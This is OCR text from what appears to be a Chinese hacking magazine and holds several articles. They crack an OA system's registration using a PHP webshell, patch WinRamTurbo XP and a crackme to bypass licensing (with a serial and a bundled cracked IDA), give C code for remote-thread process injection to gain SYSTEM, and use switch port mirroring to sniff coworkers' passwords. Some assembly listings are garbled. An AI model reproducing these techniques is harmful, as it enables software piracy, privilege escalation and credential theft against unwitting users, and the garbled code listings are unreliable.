是我的OA机器码），最后一句：return $REGISTER_CODE 改成：printf($REGISTER_CODE);（完整代码见完整的php代码.txt）。点击“submit”，在当前页面出现：92892928（见图7）。这就是本OA系统的注册码，输入注册码，并点击“注册”，显示“注册成功”（见图8），再一次登陆OA系统，不会再出现要求注册的页面，证明我们注册成功。
至此，整个注册过程就清楚了：机器码（0a260917）经过rainbabyoa_get_register_code功能的运算得到正确注册码，再与我们输入的注册码比对，如果一致就注册成功。

### 三、算出注册码：

看到这么长的代码，有人可能会想到，这么长的代码要懂程序设计才能算出注册码吧。其实不然，我们有一个简单方法可得到注册码：拷贝一个php大马（我用的是phpspy ver:2008）到D:\TTOA\webroot\inc目录下，登陆php大马后，点击“Eval php code(运行php代码)”，将rainbabyoa_get_register_code功能全全复制进去。头尾按php语句格式分别加上“<?php”、“?>”，在前面添加我们机器码的变量赋值语句：$MACHINE_CODE_STR=" 0a260917"；（这

我们利用OA系统的php环境，加上以注册码为变量的输入语句，最后加上输出结果语句，即可让OA系统自动算出我们所需要的OA注册码。

（文中涉及的“相关代码”本期光盘已收录）

## 另类破解注册软件

沧海浮萍

软件的破解一直是一个不灭的话题，虽然从某种角度来说对于软件的破解是不正确的，但这里我们仅仅从技术交流的角度来考虑，技术只有在相互交流以及相互促进中才能发展。本文中将介绍一款共享软件的另类破解方法，破解所使用的技术仅用于技术交流，不得用于非法用途，同时笔者不会提供已经破解的软件。

共享软件的一个特点就是可以免费试用，但有的部分功能、使用时间或其他的方面会有限制，本文中的软件则在启动

## 神魔世界

复，至于脱壳的过程笔者在这里就不详细介绍了，不会的朋友可以参考《黑客破解精通》中的脱壳部分。脱壳后事实上就可以看到程序的编写语言是 Borland C++，软件运行的主界面如图3所示，是一款内存优化软件。在软件的目录下有一个文件叫 WinRamTurboXP.ini，这个文件里储存放着我们的用户名以及注册码，所以按照常规，我们应该采用“基于ini文件的软件破解方法”，和 tranbenywende 题目是“另类”，所以我们这里就换一种方式。下面我们开始正式的破解工作。
按照常规的软件破解思路，首先我们要收集一下软件的信息，我在《黑客破解精通》一书中对软件的破解有详细的介绍，包括不同类型软件的不同破解方法，感兴趣的朋友可以到黑客X档案订购。我们收集的信息包括软件是否加壳、软件的语言类型、程序模块以及各种提示等等。用 PEID 查壳可以发现是 UPX 0.89.6 - 1.02 的壳，如图2所示，于人工脱这类壳对我们来说已经是小儿科了。采用 ESP 定律即可顺利将其脱掉，脱壳后的程序可以正常运行，不需要修

运行软件，在注册的位置，如图4，任意填写我们的用户名与序列号“wangmin1944”“1234”，这时会
弹出如图5所示的错误提示，既然有错误提示，我们就可以采用“字符串查找法”来进行破解。为了更加简便，我将使用 F2 暂停法来追踪弹出提示的函数。将目标程序载入 OD 运行程序，填写注册信息弹出错误提示以后，我们按 F12 暂停程序的运行，然后我们按 ALT+F9 执行到用户代码，此时程序将会被激活。我们点击提示中“确定”，将来到以下的代码位置。

在这里我们就找到了错误的注册提示。下面要做的就是找到检测注册信息的关键位置，我们来到这段代码的段首的位置下断点，如图6所示。然后我们重新载入程序，运行程序，输入注册信息，此时将暂停在断点的位置。我们按 F8 单步向下执行。在单步执行的过程中我们会看到程序获取我们的输入信息，并来到如图7所示的代码位置。

到这里实际上我们的破解工作还没有完成，因为当我们再次重新运行程序的时候还会弹出“未注册”的提示信息，这说明程序在开始运行的时候还要读取注册文件的内容并进行计算。软件的功能在注册的时候是没有影响的，因为我们要做的就是让他在启动的时候不显示“未注册”的启动画面，同时在关闭的时候也不显示提示画面。对于启动时出现的画面我们采用跟踪的方式。OD 载入目标程序后开始跟踪，直到启动画面出现位置，笔者这里跟踪的位置如下所示：
```
0041D09A  - 5D        POP EBP
0041D09B  - C3        RETN
0041D09C  - 55        PUSH EBP
0041D09D  - 8BEC      MOV EBP,ESP
0041D09F  - 81C4 84FCFFFF ADD ESP,-37C
0041D0A5  - 8955 BC   MOV DWORD PTR SS:[EBP-44],EDX
0041D0A8  - 8945 C0   MOV DWORD PTR SS:[EBP-40],EAX
0041D0AB  - 8B F8574900 MOV EAX,[Unpacked.00495778]
```

```
00410C5E  | 83D0 E43A4900> CMP DWORD PTR DS:[F493AE41],0
00410C65  | EB 166     JMP SHORT 00410C7D
00410C67  | 8B15 50D84900 MOV EDX,DWORD PTR DS:[F49D850]
00410C6D  | 8B02      MOV EAX,DWORD PTR DS:[EDX]
00410C6F  | 8B0D 34D84900 MOV ECX,DWORD PTR DS:[F49D834]
00410C75  | 8B01      MOV EAX,DWORD PTR DS:[ECX]
00410C7B  | C3        RETN
```

这里就是就是将我们输入的注册信息写入到 WinRam-Turbo XP.ini 文件的代码部分。在 00410EC6 处，E8 FD-C6FFFF CALL Unpacked.0040D5C8 这行代码的位置需要注意，这个 call 里面就是计算我们序列号的位置，里面有算法，这里笔者就不进去分析了，流程比较简单，感兴趣的读者可以尝试自己进去分析一下。这里给出笔者跟踪出的一个序列号：2c7673a87850ef14b75066dd9e7b709c0，对应的用户名是：wangmin1944。

```
00410EC6  - E8 FDC6FFFF CALL Unpacked.0040D5C8
00410ECB  - 85C0      TEST EAX,EAX
00410ECD  - 0F85 48810001 JNZ Unpacked.004101B3
00410ED3  - C7 05 E43A4900 MOV DWORD PTR DS:[F493AE41],1


```

我们将 00401C65 处的跳转代码修改为 JMP 即可。保存修改完毕的程序，此时我们再次启动程序的时候启动画面便不会出现了。
这个 call 返回后会修改 EAX 寄存器的值，关键代码如下所示。错误的序列号使得 call 返回给 EAX 的值为 0，所以 TEST EAX,EAX 这条指令必须使得跳转指令 JZ 执行，所以到这里的破解思路很简单了，就是修改这个跳转让他不跳往错误提示就可以了，修改如图8所示。此时我们在此填写注册信息时就会出现图9所示的提示信息，提示注册成功。

未注册的程序在关闭的时候会弹出请购买的提示窗口，如图10所示，下面我们就要去除这个 NAG 提示。
由于软件是在我们点击退出时才弹出“请购买”的提示窗口，因此我们需要跟踪的也就是程序将要退出时的情况。见到的退出 API 有 ExitProcess、exit、TerminateThread 等，这里需要我们一次尝试，这里的目标软件使用的是 TerminateThread。输入 read，因此我们下断点命令：bp TerminateThread。运行程序后，选择右键菜单的退出命令，这时候程序将暂停在如下位置。

## 剖视虚拟

所示的代码位置：

```
7C81CB3A    90                  NOP
7C81CB3B    8BF1                MOV EDI,ECX
7C81CB3D    55                  PUSH EBP
7C81CB3E    8BEC                MOV EBP,ESP
7C81CB40    837D 08 00          CMP DWORD PTR [EBP+08],0
7C81CB44    0F84 B470 0000      JE ...
7C81CB4A    FF75 0C             PUSH DWORD PTR [EBP+0C]
7C81CB4D    FF75 08             PUSH DWORD PTR [EBP+08]
7C81CB50    E815 74 48 07       CALL DWORD PTR ...
7C81CB56    85C0                TEST EAX,EAX
DS:[EAX+8h] = Ntdll!ZwTerminateThread
7C81CB5A    ...                 MOV ...
```

很显然，这里应经不是用户代码区域了，已经进入了系统的 kernel32 核心区域。从代码中我们可以看出，这个函数实际上是调用了 ntdll.dll 模块中 ZwTerminateThread 函数，在其他的所有程序中，我们通过下 ZwTerminateThread 断点都可以拦截程序的退出工作。我们按 F8 单步运行走出这个模块，返回到了如下所示的用户区域代码：

```
00403235    74 10              JE SHORT ...
00403245    ...                packed 00403245
00403235    16A 00             PUSH 0


```

我们在该段的段首下断点，重新加载入程序并运行，然后点击退出，此时程序暂停在该段首位置。我们采用 F8 单步踪迹，找到显示“请购买”的提示 Call，代码位置如图11所示。我们将这个 Call 用 NOP 替换掉即可。
到这里位置我们对这个程序的破解分析就基本上告一段落了。对于一个程序来说，分析他的各个模块之间的联系是最关键的。掌握了模块之间的联系，我们就能迅速的定位每个功能所对应的代码位置，不管是对于我们破解程序还是重新生成源代码来说都是十分有利的。软件的逆向分析在掌握了基础之后，个人感觉最重要的是练习。大量的练习你就会感觉到程序代码中的魅力，就会掌握更多的实战经验，这对以后的工作学习都是十分重要的。

## IDA破解crackme

IDA 这款软件相信大家都已经十分熟悉了，现在的版本应该是 5.5，我在这里把破解版权直接给大家打包了。IDA 无论是在软件破解还是在软件分析中都有着十分重要的作用，尤其当你对 IDA 的使用了如指掌的时候，你就会发现，IDA 几乎可以做任何事情。本篇文章就通过使用 IDA 破解一个小的 crackme 来展示一下 IDA 的魅力。

这个 crackme 的破解十分简单，你几乎可以采用 OD 瞬间将其爆破，我们来看一下在 IDA 的平台下可以怎样来做。由于目标软件是没有加壳的，所以这里就直接用 IDA 载入了，载入程序之后如图1所示。这里 IDA 已经为我们分析出了程序的入口点，从给出的入口点代码可以看出，这个程序是采用 VC 写的。程序运行之后要求输入序列号，我们在任意输入

（文章中所涉及到的软件已经收录在光盘中）

入序列号之后出现了错误提示，如图2所示。既然有错误提示，我想大家已经考虑到应该采用什么方式进行破解了，一般来说采用的是字符串查找法。

```
instance= dword ptr  4
pprevinstance= dword ptr  8
lpCmdLine= dword ptr  0Ch
nShowCmd= dword ptr  10h

push    [esp+nShowCmd] ; int
push    [esp+4+lpCmdLine] ; char *
push    [esp+8+pprevinstance] ; struct WININSTANCE *
push    [esp+0Ch+instance] ; struct WININSTANCE_*
call    ?AFxWinMain@...@Z ; afxWinMain
retn    10h

WinMainCRTStartup proc near
...


```
我们点击菜单栏的“EDIT”，选择代码模式，如图3所示，此时 IDA 将会把我们带到这个 crackme 的代码位置，我们从代码的位置来分析这个程序。顺着代码的方向向下查看我们会找到一些关键的提示，部分代码如图4所示。
在这里我们可以看到有正确的提示以及错误的提示，更好的一点就是 IDA 给出了这些提示的是在哪里被调用的，DATA XREF 就是交叉调用的指示。其中 Incorrect try again!!这个错误提示的调用位置就是 401512+A2，我们顺着向前寻找这个代码位置。当然也可以采用更加直接的方式，在 XREF 上点击右键，选择跳转，如图5所示。此时就会弹出如图6所示的窗口，我们点击确定即可来到调用这些代码的位置。
来到的位置如图7所示，这里就是调用错误提示的位置。在代码的右边我们可以看到跳转过来的指向箭头，如图8所示，这个箭头的来源就是判断输入错误的地方。我们顺着箭头向上回溯，可以发现跳转的来源就在前面不远的地方，如图9所示。
这几句代码就是这个 crackme 的关键所在了，通过 IDA 的提示我们可以看出，程序将两个字符串压入了堆栈，然后用一个 call，就是 lstrcmpA 对这两个字符串进行对比，然后通过 test eax, eax 检测对比的结果，如果结果不同则执行 jnz short loc_4015AD 这个跳转，从而弹出错误的提示。既然找到了关键所在，下面我们要做的就是修改这个跳转了，程序的跳转流程如图10所示。

```
```
.text:00401585    lea     ecx, [ebp+String2]
.text:00401588    push    ecx             ; lpString2
.text:00401589    lea     edx, [ebp+String1]
.text:0040158C    push    edx             ; lpString1
.text:0040158D    call    ds:lstrcmpA
.text:00401593    test    eax, eax
.text:00401595    jnz     short loc_4015AD
```


```
我们下面就要在 IDA 中修改代码。选中要修改的代码 jnz，然后点击“Hex View”，如图11所示。此时将会来到
HEX 模式下，同时会出现我们选中的代码所对应的 HEX 值，如图12所示。我们在75这个数值，就是 jnz 的16进制模式，在这里点击右键选择“EDIT”，如图13所示，
图12

说明我们修改了成功，然后点击保存即可实现更改，这样我们的破解工作就完成了。
图13

此时75所在的位置就可编写了。

图14
使用 IDA 破解软件虽然有时不如 OD 更为直观，但 IDA 对程序的分析却是 OD 所不能及的，尤其是在模块间的调用以及模块交叉。IDA 还有着交叉参考视图的功能，这更为我们快速的分析程序提供了更为强大的支持。很好的掌握 OD 以及 IDA 的使用，不仅在软件破解中能够起到事倍功半的效果，在其他的软件逆向分析以及漏洞挖掘中更会起到意想不到的作用。

图11

我们将5修改为4，就是对应的 jnz 修改为 jz，然后点击右键选择确认，如图14所示。这样我们就将代码修改完了。此时返回到反汇编模式我们可以看到原来的代码已经能够变成了下面的代码：

（文中涉及的“crackme，IDA 5.5”本期光盘已收录）

## 伪造函数参数逆向分析控制台程序

BaseNet

众所周知，Windows 平台的程序可以简单的分为图形界面程序（GUI）和控制台程序（Console），两者的分界线实际上是很模糊的，我们可以借助于 /entry 和 /subsystem 两个链接器参数指明其入口的启动函数和运行所需要的子系统环境；相信对于图形界面程序的逆向，朋友们都已经接触过很多了，但是在现实中我们会碰到很多前辈们写的经典的控制台程序，比如 mt.exe、nc.exe 等等，要更好的使用这些工具、提高编程能力，熟悉这些老牌经典黑客工具的原理是很有必要的，本文以 mt.exe 为例通过逆向其 -su 参数的提权机制来熟悉控制台程序的逆向步骤。

不可以的。图中显示 RVA 为 29650 时，能找到 msvcrt.dll，那么此处一定是 IAT 的位置，只不过 IAT 未被找全而已，在 OD 命令窗口输入：dd 429650（加上基址 0x00400000），向上翻页，定位 IAT 的真实 RVA 在 2943c 的位置，如图4所示。在 Import REC 中将 RVA 修改为真实的 RVA 地址 2943c，大小填 1000（随便填，只要找全即可），直接单击“获取输入表”，如图5所示，IAT 获取成功，修复脱壳程序，正常运行，到这里准备工作完成。

### 一、脱壳
用 Peid 查壳提示什么都没找到，但是 EP 区段是 UPX1，事实证明的确是 UPX，如图1所示，OD 载入，CTRL+F 搜索 popad，找到如图2的位置，在此位置 F2 下断，F9 运行程序，取消断点，直接 jmp 到 OEP，用 OD 自带的脱壳脚本脱壳。运行 Import REC 进行修复，如图3所示，不会吧，只有一个 C/C++ 运行时库在里面，显然通过工具自动查找 IAT 是

图1
### 二、伪造参数实现动态跟踪—su参数下的代码

#### 2.1 分析函数

用OD载入脱壳修复后的程序，直接F7跟进第一层函数，依次跟进相应的函数，程序总是退出，定位代码在如下位置：

```
0040219D  6A 00           push 0
0040219F  E8 AC820100     call <jmp.&msvcrt.exit>
```

exit()是一个运行时库函数，当参数为0时表示正常退出，由汇编代码可知，程序是正常退出的，而不是异常，那为什么会退出呢？答案很简单，因为mt.exe是一个命令行下的控制台程序，在运行时需要手工输入参数，如果没有参数，则只会显示帮助内容，因此上面在OD中看到的异常，实际上对程序来说是正常的（exit()传递的参数为0）。知道了原因重新载入，手动伪造相应的参数即可。

因为要分析mt -su参数的实现机制，mt -su filename可以提升filename的权限为system，如果不加filename则将cmd.exe提升为system权限，要理解mt -su的机制，只要知道调用的相关函数及功能即可，因此分析只有mt -su，提升cmd.exe为System权限的情况即可，主函数参数必须为2，且第二个必须为-su。重新载入，跟进第一层的函数，代码如下：

```
00401197  68 D0104000        push no.004010D0
0040119C  E8 77930100        call <jmp.&kernel32.SetUnhandledExceptionFilter>  ;设置顶层异常过滤
004011A1  83C4 0C            add esp,0C
004011A4  E8 6F920100        call <jmp.&msvcrt.__fpreset>
004011A9  E8 52FEFFFF        call no.00401000
004011AE  E8 7DFEFFFF        call no.00401030
004011B3  83EC 10            sub esp,10
004011B6  E8 55920100        call <jmp.&msvcrt.__p__environ>  ;环境变量
004011BB  8B15 04C04100      mov edx,dword ptr ds:[41C004]
004011C1  83C4 0C            add esp,0C
004011C4  8B08               mov ecx,dword ptr ds:[eax]
004011C6  A1 00C04100        mov eax,dword ptr ds:[41C000]
004011CB  51                 push ecx
004011CC  52                 push edx


```
图6
函数402e28有三个参数，一个是ecx一个是edx一个是eax，这三个寄存器到底是什么东东呢？dd 41c004，显示内容为1，这里应该是argc的内容，即参数的个数，dd [edx]，如图6所示，显然是在进程的环境控制块，图中显示的程序名，即为argv[0]指针所指向的内容，因此edx即保存了相关的mt.exe的命令参数，dd ecx，显示内容为系统设置的环境变量，到这里可以搞清楚402e28这个函数的三个参数了，描述如下：
- ecx——系统环境变量——进入函数402e28后的地址定位为ebp+0x10
- edx——argv[]——进入函数402e28后的地址定位为ebp+c
- eax——argc——进入函数402e28后的地址定位为ebp+8

#### 2.2：伪造参数

有上面的分析eax为参数的个数，且最后入栈，因此将当前esp指向的栈空间地址修改为2即可实现mt -su参数个数的伪造。在OD命令栏中输入，dd [edx]，此时为进程环境控制中的参数列表，我们在图6中的3e2821处，用OD修改内存将参数-su写入，要写入参数，首先将-su转换为十六进制，如图7所示，它对应于0x2d7375，别忘了这是字符串，因此在末尾要加上一个0x00，即0x2d737500，因为Intel的机器为Little endian，因此修改时需要输入0x0075732d，修改后的内存如图8所示，到这里参数还没伪造完，因为控制台主函数的格式为int main(int argc,char *argv[])，即argv[]实际上是一个字符指针数组，上面[edx]只是修改了指针所指内存地址的内容，我们还需将-su参数所在的内存地址，保存到argv[1]中才可以，即修改edx+4位置地址为003e2821（-su参数的内存地址），修改后内存示意如图9所示，修改完这些内容后，即可F7跟进402e28函数了，现在不用再担心程序正常退出了。

### 三、逆向分析其机制

F7跟进程序后，一路F8狂奔至如下代码处（为了节省版面，删除一些没太多分析意义的指令语句）：

```
//mt -su功能的整体布局
00403363  68 73244000      push dd_00402473
                          ; -su
00403368  8B45 0C          mov eax,dword ptr ss:[ebp+C]
                          ; ebp+c argv[]的地址
0040336B  83C0 04          add eax,4
                          ; 即edx+4我们修改的位置
0040336E  8B10             mov edx,dword ptr ds:[eax]
                          ; 将指针地址保存到edx中
00403370  52               push edx
                          ; 指针入栈
00403371  E8 6A700100      call <jmp.&msvcrt._strcmpi>
                          ; strcmpi比较参数，eax为返回值
0040337B  85C0             test eax,eax
                          ; 如果参数不一样，则比较其它参数
0040337D  0F85 A1000000    jnz dd_00403424
00403383  837D 08 02       cmp dword ptr ss:[ebp+8],2
                          ; 如果只有两个参数则将cmd.exe提升为system
00403387  75 2B            jnz short dd_004033B4
                          ; 如果不是两个参数，则跳转比较是否有三个参数
0040338C  68 77244000      push dd_00402477
                          ; cmd.exe /q
00403391  8D85 E0EFFFFF    lea eax,dword ptr ss:[ebp-120]
00403397  50               push eax
00403398  E8 A3700100      call <jmp.&msvcrt._mbscpy> ; 将cmd.exe /q复制到22fe60
0040339D  83C4 10          add esp,10
004033A0  83C4 F4          add esp,-0C
004033A3  8D85 E0FEFFFF    lea eax,dword ptr ss:[ebp-120] ; eax指向cmd /Q
004033A9  50               push eax
004033AA  E8 ED4E0000      call dd.0040829C ; 此函数即为提升system权限的关键call
004033AF  83C4 10          add esp,10
004033B2  EB 68            jmp short dd.0040341C
004033B4  837D 08 03       cmp dword ptr ss:[ebp+8],3 ; 如果有三个参数则进行操作第三个参数
```

上面可知mt.exe -su参数的整体源码框架如下：

```c
int main(int argc,char *argv[])
{
    if (strcmpi(argv[1],"-su")==0)
    {
        if (argc==2)
        {
            //提升cmd.exe的权限为system
        }
        if (argc==3)
        {
            //提升argv[3]的权限为system, argv[3]为第三方PE文件的字符串
        }
    }
}
```

F4执行到call 40829c处，F7跟进。如图10所示的入口代码，熟悉的SeDebugPrivilege出现了，显然404458处的函数即为令牌修改函数。继续F8单步走到如图11的位置。407FCC是这个程序的最关键call，OD中会提示我们ASCII码——“inject failed”，看来程序用的是注入技术，跟进此核心call，单步到如下位置：

```c
//字符串加密功能
```

```
0040801D E8 3E240100 call <jmp.&msvcrt.strlen> ; strlen(p=41c010) 完成eax=0x309即为777个字节
00408025 8985 DCDFFFFF mov dword ptr ss:[ebp-2024],eax ; 保存字符数
0040802E 8B85 DCDFFFFF mov eax,dword ptr ss:[ebp-2024]
00408034 50 push eax ; 要复制的字符串309
00408035 68 10C04100 push dd.0041C010 ; src=41c010
0040803A 8D85 E0DFFFFF lea eax,dword ptr ss:[ebp-2020] ; dest=22ddd0
00408040 50 push eax
00408041 E8 5A240100 call <jmp.&msvcrt.memcpy> ; 调用内存复制
0040804F 8B45 0C mov eax,dword ptr ss:[ebp+C] ; cmd.exe /Q
00408052 50 push eax ; 保存eax
00408053 E8 08240100 call <jmp.&msvcrt.strlen> ; 计算CMD /Q的长度
0040805B 89C0 mov eax,eax ; eax=10
0040805D 8D50 01 lea edx,dword ptr ds:[eax+1] ; edx=0xa+1=0xb
00408060 52 push edx
00408061 8D85 E0DFFFFF lea eax,dword ptr ss:[ebp-2020] ; eax=22ddd0, 即dest的起始地址
00408067 89C2 mov edx,eax ; edx=22ddd0
00408069 0395 DCDFFFFF add edx,dword ptr ss:[ebp-2024] ; edx=22e0d9即dest的结束地址


```
```asm
0040806F    92                  push eax
00408070    8B45 0C             mov eax, dword ptr ss:[ebp+0C]
00408073    50                  push eax
00408074    E8 43FCFFFF         call 00407EBC
00408079    83C4 10             add esp, 10
0040807C    ...                 加密cmd.exe /Q
```

此处有一个函数407ebc，进入后发现是加密cmd.exe /Q，算法很简单，字符串结合数组元素的序号与0x5f（即^）进行xor运算，相当于C++代码中的var ^= '^'；这语句可以看了还不定很开心，作者加密的原因应该是考虑到了对敏感字符保护，防止将内存中的cmd.exe /Q定位为特征码，继续定到如下代码处：

```asm
00408091    8B45 08             mov eax, dword ptr ss:[ebp+08]
00408094    50                  push eax
00408095    E8 36FFFFFF         call 004046D0
0040809A    83C4 10             add esp, 10
0040809D    83C4 10             add esp, 10
0040809D    8B45 EC             mov eax, dword ptr ss:[ebp-14]
004080A0    83C4 10             add esp, 10
004080A3    8B45 EC             mov eax, dword ptr ss:[ebp-14]
004080A6    50                  push eax
```

又出来一个手写函数，此处的函数用于枚举系统进程，获得services.exe系统进程的PID，这是如何得出的呢？首先看函数的参数，如图12所示。此时栈空间为字符串services，返回值eax的内容为0x398，我们用hex2dec将十六进制转换成十进制，再查看系统的进程PID就可以知道了，如图13所示。进入函数你会发现EnumProcess()即nt.exe是通过它EnumProcess()来枚举进程的，而并没有使用Toolhelp系列函数。接下来的东东只要分析程序调用的API函数即可熟悉nt.exe使用的进程注入技术。

```asm
004080AE    E8 9D240100        call <jmp.&kernel32.OpenProcess>    返回
services.exe即为要调用的
004080B3    6A 40              push 40
004080B5    68 00700000        push 1000
004080BA    8B05 DCDFFFFF      mov eax, dword ptr ss:[ebp-2024]
004080BD    50                  push eax
```

```asm
004080F1    6A 00             push 0
004080F3    6A 00             push 0
004080F5    6A 00             push 0
004080F7    E8 D4240100        call <jmp.&kernel32.VirtualAllocEx>
004080FC    83C4 0C            add esp, 0C
004080FF    89C0              mov eax, eax
00408101    8B45 E8           mov eax, dword ptr ss:[ebp-18]
00408103    50                push eax
00408104    68 00000000       push 0
00408109    50                push eax
0040810A    6A 00             push 0
0040810C    6A 00             push 0
0040810E    6A 00             push 0
00408110    6A 00             push 0
00408112    6A 00             push 0
00408114    6A 00             push 0
00408116    6A 00             push 0
00408118    6A 00             push 0
00408119    8B45 E8           mov eax, dword ptr ss:[ebp-18]
0040811C    50                push eax
0040811D    E8 90240100       call <jmp.&kernel32.WriteProcessMemory>


```
```asm
eax
0040817D    6A 00          push 0
0040817F    6A 00          push 0
00408181    8B45 F4        mov eax, dword ptr ss:[ebp-C]
eax
00408184    50             push eax
eax
00408185    E8 56240100    call <jmp.&Kernel32.CreateRemoteThread>
004081B4    83C4 F8        add esp, 8
004081B7    6A FF          push -1
004081B9    8B45 F0        mov eax, dword ptr ss:[ebp-10]
eax
004081BC    50             push eax
eax
004081BD    E8 26240100    call <jmp.&Kernel32.WaitForSingleObject>
```

```c
HANDLE hSnap = NULL;
PROCESSENTRY32 pe32 = {0};
pe32.dwSize = sizeof(pe32);
if ((hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)) == INVALID_HANDLE_VALUE)
{
    return 0;
}
BOOL EnableDebugPrivilege(VOID)
{
    HANDLE hToken = NULL;
    TOKEN_PRIVILEGES tp = {0};
    DWORD dwLog = 0;
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
        return FALSE;
    if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid))
        return FALSE;
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
    CloseHandle(hToken);
    return TRUE;
}
```

线程函数的内容即为 memcpy() 中的内容，可以在内存中直接反汇编该部分内存的代码。由上面的 API 调用可知，mt.exe -sup 的原理就是通过一个系统进程运行一个 exe 文件，因为系统进程的权限为 system，所以它运行的 exe 文件也是 system 权限，详细的步骤就是一个非 DLL 进程进程注入进程，即将线程函数直接写入 system 权限的进程，从而继承 system 权限（有关提升 system 权限的方法，请参考以前黑 X 的文章），具体的步骤如下：

- 1. 通过 OpenProcessToken()、LookupPrivilegeValue()、AdjustTokenPrivileges() 来获得打开系统进程的权限。
- 2. 通过 EnumProcess() 枚举系统进程，获取 services.exe 的进程 PID，调用 OpenProcess() 获得其句柄。
- 3. 通过 VirtualAllocEx() 在 services.exe 的进程空间中分配内存，然后调用 WriteProcessMemory() 将线程函数写入，再后调用 CreateRemoteThread() 远程创建线程，最后通过 WaitForSingleObject() 等待远程线程内核对象返回。

### 四、根据之前原理编写代码

知道了原理操作起来也就简单了，下面是以注入 notepad.exe 为例的直接写线程函数的注入代码。

```c
// 获取 notepad.exe 的 PID
DWORD GetNotepadPid(VOID)
```

```c
return FALSE;
}

tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
tp.Privileges[0].Luid.HighPart = luid.HighPart;
tp.Privileges[0].Luid.LowPart = luid.LowPart;
if (!AdjustTokenPrivileges(htoken,FALSE,&tp,sizeof(tp),NULL,NULL))
{
    CloseHandle(htoken);
    return FALSE;
}

CloseHandle(htoken);
return TRUE;
}

//注入程序
BOOL Inject(char *sufile)
{
    HANDLE hpro = NULL;
    data mydata = {0};
    LPVOID lpdata = NULL; //指向远程线程函数地址的参数地址
    LPVOID lpbase = NULL; //指向CreateRemoteThread()的远程线程函数地址
    HANDLE hthread = NULL;
    if (!EnableDebugPriv()) //给本地进程加上SE_DEBUG_NAME特权
    {
        return FALSE;
    }

    if (NULL==(hpro = OpenProcess(PROCESS_ALL_ACCESS,FALSE,GetNotepadPid()))) // 获得notepad.exe的进程权限
    {
        return FALSE;
    }

    //在notepad.exe的进程地址空间分配一个页大小的内存，内存可保留可提交
    if (NULL==(lpbase = VirtualAllocEx(hpro,NULL,1024*4,MEM_COMMIT | MEM_RESERVE,PAGE_READWRITE)))
```

```c
{
    return FALSE;
}
//将线程函数写入到notepad.exe的进程中
if (!WriteProcessMemory(hpro,lpbase,&ThreadFunc,1024*4,NULL))
{
    return FALSE;
}

/*将进程函数需要的数据写入到远程线程中*/
strcpy(mydata.pe,sufile);
HMODULE msvcrt = LoadLibrary("msvcrt.dll");
mydata.funcaddr = (DWORD)GetProcAddress(msvcrt,"system");
if (NULL==(lpdata = VirtualAllocEx(hpro,NULL,sizeof(mydata),MEM_RESERVE | MEM_COMMIT,PAGE_READWRITE)))
{
    return FALSE;
}

if (!WriteProcessMemory(hpro,lpdata,&mydata,sizeof(mydata),NULL))
{
    return FALSE;
}
//创建线程函数
if (NULL==(hthread = CreateRemoteThread(hpro,NULL,0,(LPTHREAD_START_ROUTINE)lpbase,lpdata,0,NULL)))
{
    return FALSE;
}
CloseHandle(hpro);
return TRUE;
}


```

另外需要注意，其一，上面的代码只是为了演示 mt -su 参数使用的注入机制，其二，vista 以后因为 windows 引入了 session 0 隔离的机制，因此以上提升 system 权限的方法无效。到这里，菜鸟的一次逆向之旅就结束了，愿与更多黑 X 的朋友交流技术，论坛 ID: BaseNet。

## 密码轻松拿

### ——交换机端口映射技术应用

地平线

在当前信息化社会，无纸化办公已是大势所趋。在单位里，电子邮箱、FTP服务器、OA系统、电子审批系统等，均成为工作中必不可少的工具。其中，个人密码的保护至关重要。为了加强密码安全，很多单位都明确规定：密码长度必须在多位数以上（如10位数）；密码中必须包含特定字符（如“#”、“&”等）；密码隔一段时间必须修改；个人电脑必须安装指定的杀毒软件和防火墙；等等。

应该说，这些措施已经足够完善了，密码的安全性看上去已无懈可击。但是，事实并非如此。采用如下提到的交换机端口映射技术，再结合嗅探工具，再强大的密码我们也能够轻松拿到。

### 一、数据嗅探原理简介

首先，我们对数据嗅探原理做下简单介绍。在由共享 HUB 组成的局域网中，如图 1。当机器 A 访问外部网络时，机器 A 首先将数据发送至 HUB，此时 HUB 会将数据发送至所有端口，该 HUB 所连机器的所有网卡均能接收到该数据。

正常情况下，若机器发现数据头的目的 MAC 与自己不同，则将该数据包丢弃。然而，若其中一台机器 B 开启了嗅探程序，则嗅探程序会将网卡设置为“混杂模式”。此时，在机器 B 运行的嗅探程序即能够接收到整个 HUB 内的数据信息了。
以电子邮件为例，当机器 A 收发电子邮件时，正在机器 B 上运行的嗅探程序（此处使用 CommView）将会捕获到邮件传送过程中的全部信息。其中，我们能够清楚的看到该邮箱密码为 331029，如图 2 所示。
### 二、嗅探破解存在的问题

在当前的局域网中，共享式 HUB 已很少采用，组网设备主要为功能更强大的二层交换机。典型组网拓扑如下图：
二层交换机能够记录机器 MAC 地址与端口的对应关系，当交换机从某个端口收到一个数据包，它会读取包头中的目的 MAC 地址，并在地址表中查找相应的端口；之后，交换机会将数据包发送至与该目的 MAC 地址对应的端口。这样，其它端口将不会接收到该数据包，嗅探破解密码完全失效。

在图 3 中，当机器 A 与外部网络通信时（如收发邮件），机器 B 将无法截获任何数据。

### 三、交换机端口映射技术

在二层交换机局域网中，如何获取我们需要的密码呢？在此，就用到了交换机端口映射技术。所谓端口映射，服务、电子审批系统等，均对明文传输。就是通过命令设置，将某端口（如端口 A）数据流量全部在指定端口（如端口 B）进行复制，从而在 B 端口上能够监测到 A 端口全部收发数据包。如图 3 所示，在交换机 A 上做如下命令（此处以华为公司交换机为例）：

```
port mirroring Ethernet 0/0/1 both Ethernet 0/0/24
```

此时，交换机 A 的 1 端口（连接机器 A 的端口）的数据报文将全部映射至其 24 端口。

在交换机 B 上做如下命令：

```
port monitor Ethernet 0/0/2
port mirroring Ethernet 0/0/24 both Ethernet 0/0/2


```

此时，交换机 B 的 2 端口（连接机器 B 的端口）被设定为监听端口；同时，其 24 端口的数据报文将全部映射至 2 端口。此时，机器 B 能够监测到机器 A 所有的收发数据报文。
如图 4 所示，当机器 A 收发电子邮件时，在机器 B 上运行的嗅探程序将会截获全部报文。经过测试，电子邮件、FTP 等协议均能被监测到。

### 四、密码安全防护措施

